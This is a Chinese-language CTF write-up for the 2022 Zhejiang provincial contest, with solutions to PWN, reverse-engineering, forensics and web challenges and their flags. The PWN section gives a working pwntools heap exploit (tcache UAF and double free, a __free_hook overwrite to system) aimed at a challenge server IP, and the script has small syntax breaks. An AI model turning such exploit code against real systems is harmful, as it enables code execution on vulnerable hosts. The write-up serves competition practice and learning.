> [题目附件下载地址](https://github.com/Eu21ka/pwn-exercises/tree/main/2022浙江省赛)

 # PWN

## babyheap

这道题是2.27下的一个tcache利用，因为有UAF，所以很容易的就可以泄露出堆地址。再利用tcache double free可以轻易释放堆块到unsorted bin中去，然后就可以泄露libc地址。然后通过修改fd指针，部署堆块到free hook上，并将其覆盖为onegadget，最后free触发onegadget获得shell。

**EXP：**

```python
from pwn import *
context.log_level='debug'
def conn(x,file_name):
    if x:
        p=process(file_name)
    else:
        p=remote('1.14.97.218',22785)
    return ELF(file_name),p,ELF('libc-2.27.so')
def choice(ch):
    p.sendlineafter('input your choice: ',str(ch))
def add(size):
    choice(1)
    p.sendlineafter('input size: ',str(size))
def edit(idx,payload):
    choice(2)
    p.sendlineafter('input index: ',str(idx))
    p.sendafter('input content: ',payload)
def show(idx):
    choice(3)
    p.sendlineafter('input index: ',str(idx))
def free(idx):
    choice(4)
    p.sendlineafter('input index: ',str(idx))
elf,p,libc=conn(0,'./pwn1')
add(0x68)#0
add(0x68)#1
free(0)
free(1)
show(1)
p.recvline()
heap=u64(p.recvline().replace(b'\n',b'')+b'\0\0')-0x260
success('heap:'+hex(heap))
edit(1,p64(heap+0x10))
add(0x68)#2
add(0x68)#3
add(0x7f)#4
add(0x28)#5
edit(3,b'\x00'*7+b'\x07')
free(4)
show(4)
libc_addr=u64(p.recvuntil(b'\x7f')[-6:]+b'\0\0')-96-0x10-
libc.sym['__malloc_hook']
success('libc:'+hex(libc_addr))
edit(3,b'a'*0x48+p64(libc_addr+libc.sym['__free_hook']))
add(0x28)#6
edit(6,p64(libc_addr+libc.sym['system']))
edit(0,'/bin/sh\0')
free(0)
gdb.attach(p)
p.interactive(
```

> 这周虚拟机崩了，之前写的脚本也就丢失了，所以就直接拿了别的师傅的exp，和我的攻击思路应该大差不差。


# RE

## ManyCheck

第一个检查是猜幸运数字，把程序拖进ida，通过字符串查询“First check”就可以立马定位到如下图所示的函数，然后易得出那个要猜的数字就是`77`



第二个检查根据问题敲敲计算器就可以计算出`55`和`49`两个答案，程序中的判断如下图所示



第三个检查依旧可以利用字符串查找来定位到关键函数，可看到下图中的11行就是判断



最后可以看到如下图所示的运算



是循环移位，直接用python跑

```python
>>> x=1718896489
>>> (x>>16)+((x&(2**16-1))<<16)
1198089844
```


# MISC

## 好怪哦

下载附件，发现是个损坏的压缩包，用winhex打开看看



发现是都翻转过的16进制，于是用随波逐流进行hex_str翻转



复制翻转修复好的16进制码，在winhex中还原出新的压缩包



保存好后打开压缩包，一张损坏的png图片，同样拉进winhex

发现缺少png文件头，89504E47给它补上




发现是一半的图片，修改高度得到flag





DASCTF{f8b275b06baf4204fa62743eab5eca98}


## 神奇的棋盘

下载附件





看了眼附件，应该是棋盘加密，拿原先的棋盘对比一下



对照替换


到这里没什么思路了，去看看给的图片有没有隐藏信息，因为是png，所以先想到的是lsb隐写



zsteg发现有段base32（stegsolve RGB0通道也可以解出），解出来是个key



LastKey{Yusayyds}

有了key直接随波逐流ADFGVX解密



明文进行16进制转换得到flag



DASCTF{d859c41c530afc1c1ad94abd92f4baf8}


## segmentFlow

下载附件，八个加密文件



文件大小都相同，CRC32爆破












password gZinflAte_BasE64，解压下来流量包，开始分析

查看协议分级



追踪tcp流



在不同的流发现了不同的这样的数据，tshark提取数据

tshark -r segmentFlow.pcapng -T fields -e urlencoded-form.value | sed '/^\s*$/d' > 1.txt



用notepad将,替换成换行符


在这里发现了压缩包的16进制



将每一段提取出来拼接

504B03041400000008006EAE86547BF6F39C2A0000002800000008000000666C61672E74787473710C760E71AB364B4D4C49344BB530314C364A4D4E32334E4A4E344834333731B2B0B04C32B0A80500504B01021F001400000008006EAE86547BF6F39C2A00000028000000080024000000000000002000000000000000666C61672E7478740A0020000000000001001800027E256ABD49D801027E256ABD49D8013254A060BD49D801504B050600000000010001005A000000500000000000

转换为压缩包



得到flag

DASCTF{6eada6e841c2ecb63bca0a6742889b08}


# WEB

## Web1



 








## Web2

读取规则




注册时使用Admin盲猜登陆时后台有转小写的函数所以将admin的账号登录成功获得flag




## Web3

游戏类题目两种思路：

1、 与后端有交互（通过抓包改包更改分数从而获取flag）

2、 与后端无交互（一般flag隐藏于js代码中，关键字+细心即可找到flag）

观察发现与后端无传输所以怀疑在前端进入对应的两个js文件找到flag

此题通过观察找到两个js文件读取获得flag





解码获得

